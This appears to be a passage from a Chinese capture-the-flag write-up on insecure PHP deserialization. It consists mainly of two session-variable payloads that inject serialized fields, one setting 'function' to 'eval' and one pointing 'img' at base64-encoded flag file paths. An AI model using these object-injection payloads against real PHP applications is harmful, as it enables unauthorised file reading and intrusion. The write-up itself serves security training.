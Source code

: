 payload为

```php
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:8:"function";s:4:"eval";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

![image-20240412105606300](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105606300.png)

获取flag

```php
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:8:"function";s:4:"eval";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
